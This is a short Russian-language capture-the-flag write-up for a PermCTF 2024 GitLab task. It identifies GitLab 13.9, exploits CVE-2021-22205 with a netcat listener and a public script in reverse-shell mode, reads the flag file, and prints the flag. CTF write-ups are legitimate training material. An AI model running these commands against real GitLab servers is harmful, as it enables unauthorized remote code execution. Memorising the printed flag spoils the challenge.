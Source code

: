 # Gitlab
## Описание
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gitlab.jpg)


## Решение 

1. Заходим на сайт, видим страницу логина гитлаба
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gl_1.png)


2. Попытаемся найти версию гитлаба через /help
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gl_2.png)

3. версия 13.9, ищем возможный эксплойт для этой версии и находим CVE-2021-22205

4. качаем и открываем шелл
```
netcat -lvvp 9999 # открываем шелл
python CVE-2021-22205.py -u http://localhost:8888 -m rev 192.168.0.104 1234 # эксплуатация уязвимости
```

5. видим в директории файл flag
```
cat flag
```
![Описание задания](https://raw.githubusercontent.com/EogoK/permctf2024_writeup/refs/heads/main/photos/gl_3.png)


## Ресурсы
https://github.com/inspiringz/CVE-2021-22205

## Флаг
PermCTF{980081b41adf8263c5bc46352cb0b41tgds26}